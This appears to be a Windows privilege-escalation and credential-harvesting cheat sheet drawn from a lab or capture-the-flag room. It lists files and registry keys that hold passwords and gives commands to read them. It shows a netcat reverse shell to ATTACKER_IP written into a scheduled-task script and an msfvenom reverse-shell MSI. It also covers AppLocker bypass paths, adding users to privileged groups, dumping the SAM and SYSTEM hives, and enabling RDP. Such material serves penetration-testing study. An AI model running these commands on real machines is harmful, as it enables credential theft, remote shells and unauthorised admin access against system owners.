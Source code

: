 # Windows

You may find some credentials about domain and password:  
•	`C:\Unattend.xml`  
•	`C:\Windows\Panther\Unattend.xml`  
•	`C:\Windows\Panther\Unattend\Unattend.xml`  
•	`C:\Windows\system32\sysprep.inf`  
•	`C:\Windows\system32\sysprep\sysprep.xml`  

### Powershell History
Whenever a user runs a command using Powershell, it gets stored into a file that keeps a memory of past commands. This is useful for repeating commands you have used before quickly. If a user runs a command that includes a password directly as part of the Powershell command line, it can later be retrieved by using the following command from a cmd.exe prompt:  
`type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`  
Note: The command above will only work from cmd.exe, as Powershell won't recognize %userprofile% as an environment variable. To read the file from Powershell, you'd have to replace %userprofile% with $Env:userprofile. 


### Saved Windows Credentials
Windows allows us to use other users' credentials. This function also gives the option to save these credentials on the system. The command below will list saved credentials:  
`cmdkey /list`  
While you can't see the actual passwords, if you notice any credentials worth trying, you can use them with the runas command and the /savecred option, as seen below.  
`runas /savecred /user:admin cmd.exe`


## IIS Configuration
Internet Information Services (IIS) is the default web server on Windows installations. The configuration of websites on IIS is stored in a file called web.config and can store passwords for databases or configured authentication mechanisms. Depending on the installed version of IIS, we can find web.config in one of the following locations:  
•	`C:\inetpub\wwwroot\web.config`  
•	`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config`  
Here is a quick way to find database connection strings on the file:  
`type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString`


### Retrieve Credentials from Software: PuTTY
To retrieve the stored proxy credentials, you can search under the following registry key for ProxyPassword with the following command:  
`reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`


### Scheduled Tasks
Looking into scheduled tasks on the target system, you may see a scheduled task that either lost its binary or it's using a binary you can modify.  
Scheduled tasks can be listed from the command line using the schtasks command without any options. To retrieve detailed information about any of the services, you can use a command like the following one:  
Command Prompt   
```cmd
C:\> schtasks /query /tn vulntask /fo list /v
Folder: \
HostName:                             THM-PC1
TaskName:                             \vulntask
Task To Run:                          C:\tasks\schtask.bat
Run As User:                          taskusr1
```
        
You will get lots of information about the task, but what matters for us is the "Task to Run" parameter which indicates what gets executed by the scheduled task, and the "Run As User" parameter, which shows the user that will be used to execute the task.  
If our current user can modify or overwrite the "Task to Run" executable, we can control what gets executed by the taskusr1 user, resulting in a simple privilege escalation. To check the file permissions on the executable, we use icacls:  
Command Prompt   
```cmd
C:\> icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
 ```
       
As can be seen in the result, the `BUILTIN\Users` group has full access (F) over the task's binary. This means we can modify the `.bat` file and insert any payload we like. For your convenience, `nc64.exe` can be found on `C:\tools`. Let's change the bat file to spawn a reverse shell:  
Command Prompt  
```cmd
C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```
        
We then start a listener on the attacker machine on the same port we indicated on our reverse shell:  
`nc -lvp 4444`  
The next time the scheduled task runs, you should receive the reverse shell with `taskusr1` privileges. While you probably wouldn't be able to start the task in a real scenario and would have to wait for the scheduled task to trigger, we have provided your user with permissions to start the task manually to save you some time. We can run the task with the following command:  
Command Prompt   
```cmd
C:\> schtasks /run /tn vulntask
```
        
And you will receive the reverse shell with taskusr1 privileges as expected:  
Kali Linux   
```bash
user@attackerpc$ nc -lvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.175.90 50649
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\taskusr1
```

### AlwaysInstallElevated
Windows installer files (also known as `.msi files`) are used to install applications on the system. They usually run with the privilege level of the user that starts it. However, these can be configured to run with higher privileges from any user account (even unprivileged ones). This could potentially allow us to generate a malicious MSI file that would run with admin privileges.  
Note: The AlwaysInstallElevated method won't work on this room's machine and it's included as information only.  
This method requires two registry values to be set. You can query these from the command line using the commands below.  
Command Prompt  
```cmd
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
        
To be able to exploit this vulnerability, both should be set. Otherwise, exploitation will not be possible. If these are set, you can generate a malicious `.msi` file using msfvenom, as seen below:  
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi`  
As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly. Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell:  
Command Prompt   
`C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`


## Basic Windows Enumeration

`systeminfo`  
`whoami /all`  
`net users`  
`net users <USERNAME>`  
`tasklist /SVC`  
`sc query`  
`sc qc <SERVICE>`  
`netsh firewall show state`  
`schtasks /query /fo LIST /v`  
`findstr /si password *.xml *.ini *.txt`  
`dir /s *pass* == *cred* == *vnc* == *.config*`  
`accesschk.exe -uws "Everyone" "C:\Program Files\"`  
`wmic qfe get Caption,Description,HotFixID,InstalledOn`  
`driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start`  


## AppLocker Bypass List

Bypass List (Windows 10 Build 1803):  
C:\Windows\Tasks  
C:\Windows\Temp  
C:\Windows\tracing  
C:\Windows\Registration\CRMLog  
C:\Windows\System32\FxsTmp  
C:\Windows\System32\com\dmp  
C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys  
C:\Windows\System32\spool\PRINTERS  
C:\Windows\System32\spool\SERVERS  
C:\Windows\System32\spool\drivers\color  
C:\Windows\System32\Tasks\Microsoft\Windows\SyncCenter  
C:\Windows\System32\Tasks_Migrated (after peforming a version upgrade of Windows 10)  
C:\Windows\SysWOW64\FxsTmp  
C:\Windows\SysWOW64\com\dmp  
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\SyncCenter  
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System  

### Adding Users to Groups  
`net user <USERNAME> <PASSWORD> /add /domain`  
`net group "Exchange Windows Permissions" /add <USERNAME>`  
`net localgroup "Remote Management Users" /add <USERNAME>`  

## Privileges and Permissions  
AlwaysInstallElevated   
`reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`  
`reg query HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer`  
`reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer`  
`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`  

## Backup SAM and SYSTEM Hashes  
`reg save hklm\system C:\Users\<USERNAME>\system.hive`  
`reg save hklm\sam C:\Users\<USERNAME>\sam.hive`  

## Enable Remote Desktop (RDP)
`reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections netsh advfirewall firewall set rule group="remote desktop" new enable=yes`  

